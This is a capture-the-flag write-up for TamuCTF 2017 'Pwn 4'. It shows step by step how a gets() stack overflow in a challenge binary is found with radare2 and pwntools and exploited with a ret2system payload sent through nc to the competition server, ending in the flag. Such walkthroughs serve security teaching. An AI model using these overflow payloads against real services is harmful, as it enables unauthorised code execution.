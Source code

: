 ```yaml
---
author:
  email: tzaoh1@gmail.com
  github: https://github.com/tzaoh
  image:
  - /images/avatar-64x64.png
  name:
  - Tzaoh
cardbackground: 'white'
cardtitlecolor: 'orange'
post_categories:
- CTFs
date: 2017-05-30T18:56:18+02:00
description: a
tags:
- test
title: "TamuCTF 2017 - Pwn 4"
summary: "Is curious that this specific challenge is more worthy than the previous one ([pwn3](../pwn3/pwn3.md)). As we will see it is way easier."
cardthumbimage: "/assets/TamuCTF2017/title.png"
---
```


![Pwn4 challenge description](/assets/TamuCTF2017/pwn4/TamuCTF2017/pwn4/1-pwn4_description.png)

Is curious that this specific challenge is more worthy than the previous one ([pwn3](../pwn3/pwn3.md)). As we will see it is way easier.

Lets take a look to the code with r2
```bash
$ r2 pwn4 -c 'aaa; afl'
```
![Pwn4 functions](/assets/TamuCTF2017/pwn4/TamuCTF2017/pwn4/2-pwn4_functions.png)

We can see four interesting functions:

* **`sym.flag_func()`** at `0x080484cb`
* **`sym.func2()`** at `0x080484e4`
* **`sym.func1()`** at `0x080484fd`
* **`sym.main()`** at `0x08048515`

```bash
[0x080483d0]> s sym.flag_func; V; p; p
# be positioned at start of sym.flag_func; Change to Visual mode; change mode view*2
```

Here they are, take a look at them.

![Pwn4 functions code](/assets/TamuCTF2017/pwn4/3-pwn4_functions_code.png)

Obviously we should try to execute that **`sym.flag_func()`**, it seems it will try print a file (**flag2.txt**, strange name right? why 2?) using the `cat` command on the remote server. But that function is never called. You can check it on your own with:
```
[0x080484f7]> axt sym.flag_func
```

Then we need to keep looking a bit more.

1. ~~**`sym.func2()`**~~ is just printing a message (it even tells you not to waste your time with it). So we can strikethrough.
2. **`sym.func1()`** is a bit more interesting because it is using the unsecure function **`gets()`**.  
Thanks to this function we would be able to overwrite the **``$eip``** register. We dont need to cross our fingers a lot of time because we fastly see that **`sym.func1()`** is being called from **`main()`**! yay!

Lets figure out, how many bytes do we need to overwrite **``$eip``** register.
```bash
[0x080484f7]> q # Close r2 (we need to open the binary again with debug mode).
$ pwn cyclic 40 # To generate string with unique subsequences.
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaa
$ r2 -X "stdin=\"`pwn cyclic 40`\"" -d pwn4 -c 'aaa; dc;'
.
.
[0x61616165]> q
$ pwn cyclic -l 0x61616165
16
```
So, we can overwrite the **``$eip``** register writing the next following 4 bytes (from byte 17 to 20)!  
Now we create a file with the previously commented file (**`flag2.txt`**) to try this out.

```bash
$ echo This is the flag > flag2.txt
$ python -c 'print("A"*16 + "\xcb\x84\x04\x08")' | ./pwn4
```
![Pwn4 printing flag2.txt](/assets/TamuCTF2017/pwn4/4-pwn4_printing_flag2.png)

Good! what will the remote server say?
```bash
$ python -c 'print("A"*16 + "\xcb\x84\x04\x08")' | nc pwn.ctf.tamu.edu 4324
```
![Pwn4 printing flag2.txt](/assets/TamuCTF2017/pwn4/5-pwn4_remote_flag2_content.png)

Ouch! that file was just a decoy. There must be a file named **`flag.txt`**.
> But how could we executed it? There is only one function which print a file and its name is hardcoded.

Well, that is not a problem, because there is a call to **`system()`**.
The only thing we need to do is to pass a different argument: **`cat flag.txt`** instead of **`cat flag2.txt`**.

If you inspect all the strings of the binary you may find surprise:
![Pwn4 printing flag2.txt](/assets/TamuCTF2017/pwn4/6-pwn4_pointer_flag_file.png):

As you may know, in order to pass the arguments to the function they need to be pushed into the stack. In case of a string not its value but its reference (a pointer **`0x0804a028`**.

Because we can overwrite the stack we can "imitate" a push into it:
1. Instead of starting in the address of **`sym.flag_func()`** (**`0x080484cb`**) we will use **`system()`** one (**`0x080484d9`**).
	```bash
    $ python -c 'print("A"*16 + "\xd9\x84\x04\x08")'
    ```
2. We need to push the pointer to the string to indicate **`system()`** which is its argument.
 	```bash
    $ python -c 'print("A"*16 + "\xd9\x84\x04\x08" + "\x28\xa0\x04\x08")'
    ```

Lets send to the server:
```bash
$ python -c 'print("A"*16 + "\xd9\x84\x04\x08" + "\x28\xa0\x04\x08")' | nc pwn.ctf.tamu.edu 4324
```
![Pwn4 printing flag2.txt](/assets/TamuCTF2017/pwn4/7-pwn4_answer.png)
Answer: gigem{R3TURN_0R13NT3D_PR0F1T}

### Complete video
<a href="https://asciinema.org/a/drr8rhjxvoqpmu6ke8czn6hwf?autoplay=1" target="_blank"><img src="https://asciinema.org/a/drr8rhjxvoqpmu6ke8czn6hwf.png" /></a>


### Tools used and some references:

 * [radare2](https://github.com/radare/radare2) - To analyze the binary.
 * [pwntools](https://github.com/Gallopsled/pwntools) and [cyclic](http://docs.pwntools.com/en/stable/util/cyclic.html#pwnlib.util.cyclic.cyclic) - To generate unique substrings.
 * [asciinema](https://asciinema.org) - To record the session.
